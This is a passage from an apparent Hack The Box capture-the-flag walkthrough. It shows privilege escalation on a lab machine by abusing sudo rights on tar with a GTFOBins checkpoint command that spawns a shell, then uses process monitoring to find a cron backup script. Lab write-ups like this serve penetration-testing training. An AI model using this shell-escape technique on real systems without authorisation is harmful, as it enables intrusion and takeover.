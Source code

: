 We can use `/bin/tar` as **onuma** and looking up on GTFOBins we can see that is possible to **privEsc** with the following command.

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![Untitled](/HTB/tartar-5.png)

![Untitled](/HTB/tartar-6.png)

![Untitled](/HTB/tartar-8.png)

At **onuma**’s home directory we can see a **.mysql_history** file which seems not empty.

```bash
_HiStOrY_V2_
create\040database\040backuperer;
exit
```

It seems like is trying to create a database called **backuperer**.

I tried to run mysql command with common credentials but failed.

So I used **moniProc.sh** which is a bash script which I used in a lot of writeups in order to see scheduled processes.

```bash
> /usr/sbin/CRON -f
> /bin/bash /usr/sbin/backuperer
> /lib/systemd/systemd-udevd
> /lib/systemd/systemd-udevd
> /lib/systemd/systemd-udevd
> /lib/systemd/systemd-udevd
> /lib/systemd/systemd-udevd
< /lib/systemd/systemd-udevd
< /lib/systemd/systemd-udevd
< /lib/systemd/systemd-udevd
< /lib/systemd/systemd-udevd
< /lib/systemd/systemd-udevd
> /bin/bash /usr/sbin/backuperer
< /bin/bash /usr/sbin/backuperer
> /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.a0a3b766a63bc5f8a1f3b9249c17a481ee819547 /var/www/html
> /bin/sleep 30
> /bin/tar -zcvf /var/tmp/.a0a3b766a63bc5f8a1f3b9249c17a481ee819547 /var/www/html
> gzip
< /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.a0a3b766a63bc5f8a1f3b9249c17a481ee819547 /var/www/html
< /bin/tar -zcvf /var/tmp/.a0a3b766a63bc5f8a1f3b9249c17a481ee819547 /var/www/html
< gzip
```

We can observe with the **moniProc.sh** output that we have a cronjob executing on the background a bash script located at **/usr/sbin/backuperer.**
